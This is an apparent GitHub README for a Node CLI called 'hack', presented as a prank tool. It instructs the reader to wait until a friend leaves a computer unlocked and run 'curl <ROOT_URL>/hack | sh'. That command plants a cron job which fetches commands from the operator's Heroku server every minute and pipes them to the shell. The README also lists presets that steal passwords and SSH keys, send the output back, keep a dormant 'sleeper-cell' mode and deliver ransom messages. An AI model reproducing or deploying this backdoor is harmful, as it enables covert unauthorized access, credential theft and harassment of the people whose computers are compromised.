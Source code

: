 # Hack

This project helps your hack your friends. All you need to do is wait for them to leave their computer unlocked, open up Terminal, and run a single curl command. I'll walk you through how to set it up for yourself.

## Getting Started

Clone, install, and link so you can use the `hack` cli tool.

```sh
git clone https://github.com/ccorcos/hack.git
git remote remove origin
cd hack
npm install
npm link
```

If you've never used Heroku before, [signup here](https://signup.heroku.com/) (it's free!) and set up their cli tool on your machine.

```sh
brew install heroku-toolbelt
heroku login
```

Create a Heroku app with an easy name to remember.

```sh
heroku create hacker-chet
```

The following command will get the root url for your Heroku webside and put it in your package.json. This way the server knows what to inject into the shell scripts.

```sh
npm run init
```

You can stand up the server locally if you want do you can hack yourself and test things out.

```sh
npm start
```

Or you can deploy to Heroku.

```sh
npm run deploy
```

Now you're ready to hack!

## API

The beauty of this program is that to start hacking someone, its just a one-liner!

```sh
curl <ROOT_URL>/hack | sh
```

`ROOT_URL` is the specific path to your application. When you're testing locally, this will be `localhost:5000` and when you deploy to heroku, it will be something like `<APP_NAME>.herokuapp.com`.

What this does is sets up a cron job to ping the /env/live endpoint every minute and pipes the result to `sh`. Pretty sweet right! And Heroku gives you HTTPS for free so I wouldn't be too worried about hacking yourself with it.

So once you've hacked your friend, you can do everything else with the commandline tool from your computer.

We have a concept of different hacked environments. When you hack someone using the `/hack` endpoint, that person starts off in the live environment, and there are a variety of commands you can run on each environment.

The following will rewrite the live environment shell script to execute the following command which will say aloud "I'm watching you". Classic prank, right?!

```sh
hack live exec "say 'I\'m watching you'"
```

Well its not going to work yet, you still have to redeploy to your heroku instance.

```sh
hack deploy
```

And then you can wait for the next minute and watch your buddy's computer ping your server.

```sh
hack logs
```

The whole point of environments is so you can hack multiple people at the same time. That's why you can rename the environment.

```sh
hack live rename jon
```

Next time the live env is pinged, it will rewrite the cron job to start pinging the jon environment instead. You can do everything the same just by changing the environment argument.

```sh
hack jon exec "say 'fuck you jon'"
```

Now if you've had enough fun for the day and the party's over, you can forget jon and assure him that you've "unhacked" him.

```sh
hack jon forget
```

That will erase the cron job from his computer. But if you know Jon is going to ice you again and you really hate being iced, you might just want to just put this environment in sleeper-cell mode so you can recover it later.

```sh
hack jon interval 1d
```

Now, rather than pinging your server every minute (the default), it will ping every day at midnight. And when you find that Natty Ice in your sock drawer before class, you can change the interval back to every minute and the next day, you're good for revenge!

```sh
hack jon interval 1m
```

Some other fun things to do are setting up additional cron jobs. One of the classics is the "fuck you" every hour.

```sh
hack jon cron "0 * * * * say 'fuck you jon'"
```

If you don't remember how cron jobs work, [this is a great resource](http://www.nncron.ru/help/EN/working/cron-format.htm). Its pretty much all comes down to this little diagram.

```
* * * * *
| | | | |
| | | | |
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)
```

Another good one is the 4/20 reminder.

```sh
hack jon cron "20 16 * * * * say 'its foe 20, ye better be toke-in'"
```

The computer-guy's voice is a little weird so it can help to type out some more phoenetic sounds. This one is such a classic, that I've actually made it a preset.

```sh
hack jon preset 420
```

And if you've written a ton of cronjobs and you don't know whats on there anymore, you can use the dump command.

```sh
hack jon dump "crontab -l"
```

Now whip open your logs (`hack logs`) and you'll see the stdout on the next ping. This is actually much more sinister now that you can get information back. If you really want to fuck with them, you can search for decrpyted passwords or steal their ssh keys.

```sh
hack jon preset passwords
hack jon preset ssh
```

But if you just want to give him a good old-fashioned scare, send him a ransom message!

```sh
hack jon preset ransom "Hello Jon, next time you ice me, I'll be deleting all the porn off your computer."
```

Lastly, if you find yourself adding a bunch of cronjobs and just want to start over, just give it a nice reset.

```sh
hack jon reset
```

# PS

[A nice resource on how to make a Node.js CLI app.](http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm)
